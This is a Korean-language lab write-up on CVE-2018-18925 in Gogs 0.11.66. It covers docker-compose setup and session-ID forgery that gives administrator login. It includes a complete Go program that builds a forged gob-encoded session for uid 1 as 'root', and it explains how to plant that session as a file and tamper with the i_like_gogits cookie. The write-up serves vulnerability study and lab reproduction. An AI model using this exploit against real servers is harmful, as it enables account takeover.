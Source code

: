 # Gogs 원격코드실행취약점 (CVE-2018-18925)


Gogs 0.11.66 및 이전버전과 Gitea 및 이전버전에 대해 취약점이 발견되었습니다. 
Sessionid 에 대한 검증이 없어, Sessionid 를 위조를 통해 임의의 계정에 로그인이 가능합니다.
임의의 파일을 읽을 수 있고 또 파일의 권한을 가지고 있어 악의적인 행위가 가능합니다.

참고：

- https://github.com/gogs/gogs/issues/5469
- https://github.com/j4k0m/CVE-2018-18925


## 환경 설정

docker-compose 를 통해 해당 취약 버전의 gogs 를 실행합니다.

```
docker-compose up -d
```

정상적으로 작동이 되었다면 http://{ip-address}:3000 으로 페이지에 접속할 수 있습니다.

최초 설정을 할때 SQLite3 으로 진행 하였습니다.

## 취약점

Gog속에 넣을 go랭 Session 파일 생성：

```go
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
    "os"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}
```
임의로 uid = 1 uname 을 root 로 지정.

기본적으로 gogs 는  /data/gogs/data/tmp/local-repo/[REPO_ID]/[FILENAME] 안에 파일을 저장을 합니다.
이를 이용해 i_like_gogits cookie 값을 변조를 통해 관리자 권한을 탈취가 가능합니다.

